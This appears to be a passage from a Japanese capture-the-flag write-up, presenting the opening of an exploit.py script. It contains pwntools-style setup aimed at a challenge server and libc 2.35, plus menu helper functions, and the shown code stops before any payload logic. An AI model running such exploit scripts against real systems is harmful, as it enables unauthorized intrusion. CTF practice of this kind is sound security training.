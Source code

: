 必要ない値取ってきてたり、自作のライブラリ多用してたりするけど、最終的な攻撃コードがこちら。

exploit.py

```python
local = False

def make_io() -> tube:
    if local:
        # return gdb.debug("./patched", exe="./patched_dbg")
        return process("./patched")
    else:
        return remote("45.153.243.57", 13337)

binary = ELF("./patched", checksec=True)
debug_bin = ELF("./patched_dbg", checksec=True)

libc = ELF(
    "/home/iwancof/WorkSpace/CTF/datas/glibc-all-in-one/libs/2.35-0ubuntu3.3_amd64/libc.so.6"
)

ld = ELF(
    "/home/iwancof/WorkSpace/CTF/datas/glibc-all-in-one/libs/2.35-0ubuntu3.3_amd64/ld-linux-x86-64.so.2"
)


def wait():
    if local:
        input("wait")
    else:
        sleep(0.5)


def edit(io: tube, b: bytes, wait_prompt=True):
    if wait_prompt:
        io.sendlineafter(b"> ", b"1")
        io.sendafter(b"text: ", b)
    else:
        io.sendline(b"1")
        io.send(b)
    wait()


def save(io: tube, wait_prompt=True):
    if wait_prompt:
        io.sendlineafter(b"> ", b"2")
    else:
        io.sendline(b"2")


def exit_chal(io: tube, wait_prompt=True):
    if wait_prompt:
        io.sendlineafter(b"> ", b"3")
    else:
        io.sendline(b"3")


def error_chal(io: tube, wait_prompt=True):
    if wait_prompt:
        io.sendlineafter(b"> ", b"4")
    else:
        io.sendline(b"4")


```